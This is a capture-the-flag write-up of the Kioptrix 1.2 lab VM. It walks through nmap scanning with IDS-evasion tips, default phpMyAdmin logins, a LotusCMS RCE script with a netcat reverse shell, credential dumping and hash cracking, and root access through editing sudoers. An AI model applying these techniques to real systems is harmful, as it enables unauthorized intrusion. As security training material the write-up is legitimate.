 ```yaml
---
title: "Kioptrix #3 Walkthrough"
author: alex
date: Fri 28 Jul 17:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-3-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.2**. Or Kioptrix #3. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)** and **[Kioptrix #2](/posts/kioptrix-2-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster
- Searchsploit
- Someone's exploit
- NetCat
- CrackStation

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.45    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.45
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)

80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch

MAC Address: 08:00:27:5D:18:0B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.102 days (since Mon Apr  4 14:53:57 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=193 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.1.45
```

We can see two ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.45. We find a web page and we can head to log into a LotusCMS but let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.45 -t 10`. And the only interesting result is a **phpMyAdmin** directory.

I tried to log in with some default credentials and I got access using `admin` as user and no password but not with enough permissions to do anything. So I went back to the login page.

It says powered by **LotusCMS** so I did a quick search with **searchsploit** to see what I could find: `searchsploit lotuscms`. And there is a Metasploit module that looked promising BUT didn't work so I Googled around the vulnerability trying to find an exploit. Here's the one I found that works: **[LotusCMS RCE](https://github.com/Hood3dRob1n/LotusCMS-Exploit)**. Now, give permissions to the file: `chmod 777 lotusRCE.sh` and execute the exploit: `./lotusRCE.sh 192.168.1.45 /`. To use it:

1. Enter your IP address when prompted.
2. Enter the port that best suits you. I used 1234.
3. Start **NetCat**: `sudo nc -nlvp 1234`.
4. Select the option #1 in the exploit
5. Go back to NetCat and there we go, we're in!

Let's look for some hardcoded credentials. They are normally inside a *config* file so let's locate any file containing **config.php** in its name: `locate config.php`. We will see that a *gconfig.php* file exists and, if we inspect it, we can see the **mysql** credentials there.

Now it's time to access **mysql** and try to escalate privileges. First let's get some creds: start `mysql` and then select the gallery database: `use gallery;`. Once there, let's dump the accounts credentials: `select * from dev_accounts;`. Here's what we get:

```
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
```

These are **MD5** hashes so the will be easily cracked using **[CrackStation](https://crackstation.net/)**. THe first hash corresponds to **Mast3r** and the second to **starwars**. Let's try to connect via SSH with those creds: `ssh loneferret@10.0.2.24 -oHostKeyAlgorithms=+ssh-rsa`. 

Once inside **Kioptrix** let's see what we can do with sudo: `sudo -l`. We see we can use `ht` that is a text editor with sudo permissions so... we can change the **sudoers** file! Let's configure the terminal: `export TERM=xterm` and now: `sudo ht`.

Using this text editor is a bit weird but if you play around you'll manage to dominate it as I did. Or look for a tutorial if you wish. Once we have the **sudoers** file opened, we must add the following to the **loneferret** user: `ALL=(ALL) ALL`. Press `F2` to save the file and `Ctrl+Z` to exit.

Now, to check if it worked just execute `sudo su` and there you go! Now you can `cd` into the `root` directory and `cat` the **Congrats.txt** to proof you compromised the VM.
